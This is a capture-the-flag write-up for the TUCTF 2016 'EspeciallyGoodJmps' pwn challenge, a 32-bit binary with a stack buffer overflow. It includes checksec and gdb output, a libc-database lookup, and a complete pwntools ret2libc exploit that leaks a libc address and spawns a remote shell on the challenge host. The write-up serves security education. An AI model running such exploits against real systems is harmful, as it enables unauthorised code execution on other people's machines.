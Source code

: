 [](ctf=tu-ctf-2016)
[](type=exploit)
[](tags=buffer overflow)
[](tools=libc-database)
[](techniques=ret2libc)

# EspeciallyGoodJmps (pwn-75)

### Description
>Pop a shell.

>Binary is hosted at: 130.211.202.98:7575

>EDIT:

>ASLR is enabled on remote server.


```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=afcb1c16b8d5a795af98824aaede8fabc045d4ed, not stripped
```

```bash
$ checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   23e4f31a5a8801a554e1066e26eb34745786f4c4

```
Running the program in gdb shows that basic buffer overflow is there.

```bash
gdb-peda$ r
Starting program: /tmp/23e4f31a5a8801a554e1066e26eb34745786f4c4
What's your name?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
What's your favorite number?
1
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, 1 is an odd number!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fa6000 --> 0x1a8da8
ECX: 0xf7fa7878 --> 0x0
EDX: 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd490 ('A' <repeats 39 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffd490 ('A' <repeats 39 times>)
0004| 0xffffd494 ('A' <repeats 35 times>)
0008| 0xffffd498 ('A' <repeats 31 times>)
0012| 0xffffd49c ('A' <repeats 27 times>)
0016| 0xffffd4a0 ('A' <repeats 23 times>)
0020| 0xffffd4a4 ('A' <repeats 19 times>)
0024| 0xffffd4a8 ('A' <repeats 15 times>)
0028| 0xffffd4ac ('A' <repeats 11 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
So yeah overflow the buffer into saved eip and get a shell from shellcode as no NX means we can keep shellcode on the stack.

But ASLR is enabled, so locating shellcode on the stack might be a pain. There are many approches to pwn it, mine was rather complicated than other exploits I saw after the CTF.

So, first leak an address from libc by reading GOT entry for puts() i.e. call puts(GOT[puts]).Once I have a libc's leaked address I'll find the version using [libc-database](https://github.com/niklasb/libc-database). [libc-database](https://github.com/niklasb/libc-database) can find versions of libc just by the LSB of the leak. We find by the leak that its LSB is 0xc10.

```bash
$ ./find puts c10
ubuntu-trusty-amd64-libc6-i386 (id libc6-i386_2.19-0ubuntu6.6_amd64)
ubuntu-trusty-amd64-libc6-i386 (id libc6-i386_2.19-0ubuntu6.7_amd64)
$ ./dump libc6-i386_2.19-0ubuntu6.7_amd64
offset___libc_start_main_ret = 0x19a63
offset_system = 0x0003fcd0
offset_dup2 = 0x000d9dd0
offset_read = 0x000d9490
offset_write = 0x000d9510
offset_str_bin_sh = 0x15da84
$ ./dump libc6-i386_2.19-0ubuntu6.6_amd64
offset___libc_start_main_ret = 0x19a63
offset_system = 0x0003fcd0
offset_dup2 = 0x000d9dd0
offset_read = 0x000d9490
offset_write = 0x000d9510
offset_str_bin_sh = 0x15da84
```

So we have 2 candidates and both have same offsets. Now we can easily calculate the offsets for system() and "/bin/sh" in libc once we have leaked address from GOT[puts]

First I leak libc's address and then redirect the flow to main() to get control after the leak.
Then I call system("/bin/sh") using the libc's version and leaked address.

[the exploit](./23e4f31a5a8801a554e1066e26eb34745786f4c4.py)

```python
from pwn import *

offset___libc_start_main_ret = 0x19a63
offset_system = 0x0003fcd0
offset_dup2 = 0x000d9dd0
offset_read = 0x000d9490
offset_write = 0x000d9510
offset_str_bin_sh = 0x15da84
offset_puts = 0x64c10

got_puts = 0x804a018
'''$ readelf -r ./23e4f31a5a8801a554e1066e26eb34745786f4c4 | grep puts
0804a018  00000407 R_386_JUMP_SLOT   00000000   puts'''


addr_main = 0x804851d

pop_ret = 0x0804839d

pad = 'A'*44

payload = pad + p32(0x080483e6) + p32(pop_ret) + p32(got_puts) + p32(addr_main) + p32(addr_main)
s = remote('130.211.202.98',7575)

s.recvline()
s.sendline(payload)

s.recvline()
s.send("1\n")
s.recvline()

t=s.recv(4)
puts_leak=u32(t)
s.recvline()


payload1 = pad + p32(puts_leak - offset_puts + offset_system) + p32(pop_ret) + p32(puts_leak - offset_puts + offset_str_bin_sh)

s.sendline(payload1)
s.interactive()
```

gives us

```bash
[+] Opening connection to 130.211.202.98 on port 7575: Done

[*] Switching to interactive mode
$ ls
easy
flag.txt
$ cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```
